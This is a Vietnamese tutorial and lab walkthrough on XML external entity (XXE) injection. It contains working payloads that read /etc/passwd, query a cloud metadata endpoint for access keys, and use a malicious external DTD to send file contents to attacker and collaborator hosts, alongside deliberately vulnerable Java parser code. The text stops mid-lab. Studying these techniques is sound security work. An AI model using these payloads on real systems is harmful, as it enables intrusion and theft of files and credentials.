## XXE Injection là gì?

Lỗ hổng chèn thực thể bên ngoài XML cho phép kẻ tấn công can thiệp vào quá trình xử lý dữ liệu XML của ứng dụng.

Cho phép kẻ tấn công đọc được các tệp tin trên hệ thống tệp của máy chủ ứng dụng, cũng như tương tác với bất kỳ hệ thống back-end hoặc hệ thống bên ngoài nào mà chính ứng dụng đó có quyền truy cập.

## XXE vulnerabilities hình thành như thế nào?

Một số ứng dụng sử dụng định dạng XML để truyền dữ liệu giữa trình duyệt và máy chủ. Các ứng dụng làm điều này hầu như luôn sử dụng một thư viện tiêu chuẩn hoặc API của nền tảng để xử lý dữ liệu XML trên máy chủ. Các lỗ hổng XXE phát sinh vì đặc tả XML chứa nhiều tính năng có khả năng gây nguy hiểm, và các bộ phân tích XML tiêu chuẩn hỗ trợ các tính năng này ngay cả khi chúng thường không được ứng dụng sử dụng.

Thực thể ngoài XML (XML external entities) là một loại thực thể XML tùy chỉnh mà giá trị được định nghĩa của chúng được tải từ bên ngoài DTD nơi chúng được khai báo. Các thực thể ngoài đặc biệt đáng chú ý dưới góc độ bảo mật vì chúng cho phép một thực thể được định nghĩa dựa trên nội dung của một đường dẫn tệp hoặc một URL.

## Các loại tấn công XXE
### Khai thác XXE để lấy tệp

Để thực hiện một cuộc tấn công chèn XXE nhằm lấy một tệp tùy ý từ hệ thống tệp của máy chủ, cần sửa đổi XML được gửi theo hai cách:
- Thêm (hoặc chỉnh sửa) một phần tử DOCTYPE định nghĩa một thực thể ngoài chứa đường dẫn đến tệp.
- Chỉnh sửa một giá trị dữ liệu trong XML được trả về trong phản hồi của ứng dụng để sử dụng thực thể ngoài đã được định nghĩa.

Ví dụ, giả sử một ứng dụng mua sắm kiểm tra mức tồn kho của một sản phẩm bằng cách gửi XML sau đến máy chủ:
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

Ứng dụng không thực hiện bất kỳ biện pháp phòng vệ cụ thể nào chống lại các cuộc tấn công XXE, vì vậy có thể khai thác lỗ hổng XXE để lấy tệp /etc/passwd bằng cách gửi payload XXE sau:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Payload XXE này định nghĩa một thực thể ngoài `&xxe;` có giá trị là nội dung của tệp `/etc/passwd` và sử dụng thực thể đó trong giá trị productId. Điều này khiến phản hồi của ứng dụng bao gồm nội dung của tệp:

```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

Lab 1: Exploiting XXE using external entities to retrieve files



Thực hiện bắt request check stock, gửi đến repeater rồi thay đổi nội dung file xml



Dòng <!ENTITY xxe SYSTEM "file:///etc/passwd"> khai báo một external entity tên là xxe, với giá trị được lấy từ tệp /etc/passwd trên máy chủ. Tuy nhiên, việc khai báo này chỉ tạo ra entity, chứ chưa sử dụng nó. Để parser thay thế entity bằng nội dung thực tế của tệp, ta phải tham chiếu đến nó ở một vị trí trong tài liệu XML bằng cú pháp `&xxe;`. 

Khi parser đọc XML, nó sẽ thấy `&xxe;`, tra cứu trong phần DOCTYPE để tìm định nghĩa của entity xxe, sau đó mở tệp file:///etc/passwd, đọc nội dung của tệp và thay thế `&xxe;` bằng nội dung đó trước khi ứng dụng xử lý XML. Vì vậy, DOCTYPE phải được đặt ở đầu tài liệu để parser biết các entity đã được định nghĩa trước khi gặp `&xxe;`, còn `&xxe;` chính là nơi kích hoạt việc sử dụng entity đã khai báo. Nếu không có DOCTYPE thì `&xxe;` là một entity không xác định và parser sẽ báo lỗi; ngược lại, nếu chỉ có DOCTYPE mà không có `&xxe;` thì entity được khai báo nhưng không bao giờ được sử dụng.

Sau đó ta thu được nội dung file /etc/passwd và solve được bài lab.



Một backend dễ bị XXE thường có hai đặc điểm:
- Nhận dữ liệu XML từ người dùng.
- Parse XML bằng cấu hình mặc định hoặc bật hỗ trợ DTD/external entity.

```
@PostMapping("/stock")
public String checkStock(@RequestBody String xml) throws Exception {

    DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();

    // Không vô hiệu hóa DTD và External Entity
    DocumentBuilder builder = factory.newDocumentBuilder();

    Document doc = builder.parse(
        new InputSource(new StringReader(xml))
    );

    String productId = doc.getElementsByTagName("productId")
                          .item(0)
                          .getTextContent();

    String storeId = doc.getElementsByTagName("storeId")
                        .item(0)
                        .getTextContent();

    return "Product: " + productId + ", Store: " + storeId;
}
```

Người dùng gửi:

```
<?xml version="1.0"?>
<!DOCTYPE stockCheck [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>3</storeId>
</stockCheck>
```

Luồng xử lý như sau:
1. builder.parse(...) đọc toàn bộ XML.
2. Parser gặp DOCTYPE và tạo entity xxe.
3. Parser gặp `&xxe;` trong `<productId>`.
4. Parser mở file:///etc/passwd và đọc nội dung.
5. getTextContent() của productId không còn là `&xxe;`, mà là nội dung của file.
6. Ứng dụng tiếp tục sử dụng giá trị đó như dữ liệu bình thường.

Điểm quan trọng là lỗi không nằm ở getTextContent(), mà nằm ở builder.parse(). Trong quá trình parse, XML parser đã tự động xử lý DTD và thay thế `&xxe;` bằng nội dung của external entity trước khi mã ứng dụng truy cập dữ liệu.

Để phòng chống XXE, cần cấu hình parser tắt DTD và external entity trước khi gọi parse(), thay vì sử dụng cấu hình mặc định.

### Khai thác XXE để thực hiện các cuộc tấn công SSRF

Ngoài việc truy xuất dữ liệu nhạy cảm, tác động chính còn lại của các cuộc tấn công XXE là chúng có thể được sử dụng để thực hiện giả mạo yêu cầu phía máy chủ (SSRF). Đây là một lỗ hổng có khả năng rất nghiêm trọng, trong đó ứng dụng phía máy chủ có thể bị khiến phải thực hiện các yêu cầu HTTP tới bất kỳ URL nào mà máy chủ có thể truy cập.

XXE có thể được dùng để thực hiện SSRF vì parser XML không chỉ đọc file cục bộ (file://) mà còn có thể gửi yêu cầu HTTP đến một URL (http://). Nếu bạn khai báo entity trỏ tới một URL nội bộ hoặc bên ngoài rồi chèn `&xxe;` vào một trường mà ứng dụng trả lại trong response, thì parser sẽ gửi request đến URL đó, lấy nội dung phản hồi và thay thế vào `&xxe;`. Khi đó, bạn vừa khiến server gửi request thay mình (SSRF), vừa đọc được phản hồi từ URL đó (SSRF hai chiều). Ngược lại, nếu ứng dụng không trả lại giá trị của entity trong response, bạn vẫn có thể khiến server gửi request đến URL mục tiêu nhưng không nhìn thấy nội dung phản hồi; đây được gọi là Blind SSRF, tức là chỉ biết request đã được gửi chứ không đọc được dữ liệu trả về.

Trong ví dụ XXE sau đây, thực thể ngoài sẽ khiến máy chủ thực hiện một yêu cầu HTTP phía back-end tới một hệ thống nội bộ trong hạ tầng của tổ chức: `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`

Lab 2: Exploiting XXE to perform SSRF attacks



Gửi request check stock sang repeater 





Ta thấy response trả về nội dung là invalid product ID: latest, ta cứ thêm phần sau dấu `:` vào sau endpoint `http://169.254.169.254/` cho đếm khi thu thập được secret access key




## Lỗ hổng Blind XXE

Nhiều trường hợp lỗ hổng XXE là Blind XXE. Điều này có nghĩa là ứng dụng không trả về giá trị của bất kỳ thực thể ngoài nào đã được định nghĩa trong các phản hồi của nó, vì vậy không thể trực tiếp lấy các tệp ở phía máy chủ.

Có hai cách chính để phát hiện và khai thác các lỗ hổng blind XXE:
- Có thể kích hoạt các tương tác mạng ngoài băng, đôi khi lấy dữ liệu nhạy cảm ra ngoài thông qua dữ liệu của các tương tác đó.
- Có thể kích hoạt các lỗi phân tích XML theo cách mà các thông báo lỗi chứa dữ liệu nhạy cảm.

Có thể phát hiện blind XXE bằng cách sử dụng cùng kỹ thuật như đối với các cuộc tấn công XXE SSRF, nhưng kích hoạt tương tác mạng ngoài băng (out-of-band) tới một hệ thống do ta kiểm soát. Ví dụ, định nghĩa một thực thể ngoài như sau: `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

Sau đó, sử dụng thực thể đã được định nghĩa đó trong một giá trị dữ liệu bên trong XML.

Cuộc tấn công XXE này khiến máy chủ thực hiện một yêu cầu HTTP phía back-end tới URL đã chỉ định. Kẻ tấn công có thể theo dõi truy vấn DNS và yêu cầu HTTP được tạo ra sau đó, từ đó xác định rằng cuộc tấn công XXE đã thành công.

Lab 3: Blind XXE with out-of-band interaction



Gửi request check stock sang Repeater



Kiểm tra bên collaborator thì thấy đã nhận được các request được gửi tới



Qua đó bài lab được giải quyết



Đôi khi, các cuộc tấn công XXE sử dụng thực thể thông thường (regular entities) bị chặn do một số cơ chế kiểm tra đầu vào của ứng dụng hoặc do việc tăng cường bảo mật của bộ phân tích XML đang được sử dụng. Trong tình huống này, có thể sử dụng thực thể tham số XML (XML parameter entities) thay thế. Thực thể tham số XML là một loại thực thể XML đặc biệt chỉ có thể được tham chiếu ở những vị trí khác bên trong DTD. Đối với mục đích hiện tại, chỉ cần biết hai điều:
- Thứ nhất, khai báo của một thực thể tham số XML bao gồm ký tự phần trăm (%) đứng trước tên thực thể: `<!ENTITY % myparameterentity "my parameter entity value" >`
- Thứ hai, các thực thể tham số được tham chiếu bằng ký tự phần trăm (%) thay vì ký tự và (&) thông thường: `%myparameterentity;`

Điều này có nghĩa là có thể kiểm tra blind XXE bằng cách sử dụng kỹ thuật phát hiện ngoài băng (out-of-band) thông qua các thực thể tham số XML như sau: `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

Payload XXE này khai báo một thực thể tham số XML có tên là xxe, sau đó sử dụng thực thể đó bên trong DTD. Điều này sẽ khiến máy chủ thực hiện một truy vấn DNS và một yêu cầu HTTP tới tên miền của kẻ tấn công, qua đó xác minh rằng cuộc tấn công đã thành công.

Lab 4: Blind XXE with out-of-band interaction via XML parameter entities



Gửi request check stock đến tab repeater sau đó thử payload xxe entity bình thường



Cần khai báo ký tự %  trước xxe



Sang collaborator kiểm tra xem response có được trả về không




Việc phát hiện một lỗ hổng Blind XXE bằng các kỹ thuật out-of-band (OAST) là một chuyện, nhưng điều đó chưa thực sự chứng minh được cách lỗ hổng có thể bị khai thác. Điều mà kẻ tấn công thực sự muốn đạt được là đánh cắp dữ liệu nhạy cảm.

Điều này có thể thực hiện được thông qua một lỗ hổng Blind XXE, nhưng nó yêu cầu kẻ tấn công lưu trữ (host) một tệp DTD độc hại trên hệ thống do chúng kiểm soát, sau đó gọi DTD bên ngoài đó từ payload XXE được gửi trong yêu cầu.

Ví dụ về một DTD độc hại dùng để đánh cắp nội dung của tệp /etc/passwd như sau:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

DTD này thực hiện các bước sau:
- Định nghĩa một parameter entity của XML có tên là file, chứa nội dung của tệp /etc/passwd.
- Định nghĩa một parameter entity khác có tên là eval, chứa một khai báo động của một parameter entity khác tên là exfiltrate. Entity exfiltrate sẽ được đánh giá bằng cách gửi một HTTP request đến máy chủ của kẻ tấn công, trong đó giá trị của entity file được chèn vào tham số truy vấn của URL.
- Sử dụng entity eval, khiến cho khai báo động của entity exfiltrate được thực hiện.
- Sử dụng entity exfiltrate, làm cho giá trị của nó được đánh giá bằng cách gửi một yêu cầu đến URL đã chỉ định.

Kẻ tấn công sau đó phải lưu trữ DTD độc hại này trên một hệ thống mà chúng kiểm soát, thông thường là tải nó lên web server của chính mình. Ví dụ, chúng có thể cung cấp tệp DTD độc hại tại URL sau: `http://web-attacker.com/malicious.dtd`

Cuối cùng, kẻ tấn công gửi payload XXE sau đến ứng dụng dễ bị tấn công:
```
<!DOCTYPE foo [
<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd">
%xxe;
]>
```

Payload XXE này khai báo một parameter entity có tên là xxe, sau đó sử dụng entity này bên trong phần DTD. Điều này sẽ khiến XML parser tải tệp DTD bên ngoài từ máy chủ của kẻ tấn công và phân tích nó ngay tại chỗ.

Sau đó, các bước được định nghĩa trong DTD độc hại sẽ được thực thi, và nội dung của tệp /etc/passwd sẽ được truyền đến máy chủ của kẻ tấn công.

Lab 5: Exploiting blind XXE to exfiltrate data using a malicious external DTD



Gửi request check stock sang Repeater, sau đó tạo file DTD và chèn nội dung vào body

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://5ekj5f0bm9kbq9igm2ph248am1ssgm4b.oastify.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Sau khi lưu file này ta sẽ có đường dẫn file DTD này `https://exploit-0aa5001b03cde23083bff4e701ba006d.exploit-server.net/malicious.dtd`



Chèn payload XXE sau vào request check stock

